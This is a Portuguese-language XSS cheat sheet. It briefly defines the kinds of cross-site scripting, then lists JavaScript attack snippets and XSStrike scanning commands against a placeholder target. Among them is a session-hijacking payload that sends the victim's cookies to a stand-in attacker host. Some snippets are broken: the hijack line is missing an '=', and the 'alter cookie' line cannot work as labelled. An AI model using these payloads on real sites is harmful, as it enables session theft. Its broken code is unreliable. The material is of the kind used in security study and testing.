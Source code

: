 # Cross-Site Scripting (XSS)

O XSS é uma das vulnerabilidades que mais ocorre em aplicações web modernas. Essa falha permite inserir códigos de Javascript na aplicação que serão executados de diversas formas. Abaixo estão os tipos de XSS e como eles funcionam.

### Reflected XSS  
O XSS refletido ocorre quando a aplicação recebe a entrada do usuário e exibe ela novamente na página, não afetando outros usuários.  

### Stored XSS  
O XSS armazenado é o mais grave de todos pois permite que o payload seja armazenado no servidor e exibido para todos os usuários que acessarem a página com o código.  

### DOM Based XSS (DOM-XSS)  

### Self-XSS  
O Self-XSS ocorre inserindo código Javascript através de HTML Injection, fechando a tag HTML com `">` e incluindo a tag `<script>` com o comando em Javascript.  

## Exploração  

### Javascript  
Visualizar cookies da vítima  
`alert(document.cookie)`  

Redirecionar vítima para outra página  
`document.location="http://google.com/"`  

### Payloads  
Sequestro de sessão  
`<script>new Image().src"http://www.hacker.com/?="+document.cookie;</script>`  

Alterar cookie usando XSS
`<script>alert(document.cookie)="cookie";</script>`

## Ferramentas

### XSStrike

Teste de XSS em um parâmetro
`xsstrike -u "http://www.alvo.com.br/index.php?p="`

Busca por parametros e realiza o teste de XSS
`xsstrike -u "http://www.alvo.com.br/index.php" --params`

Teste de Self-XSS
`xsstrike -u "http://www.alvo.com.br/index.php/" --path`

**Flags:**
`-t 10`: Aumenta o número de requisições
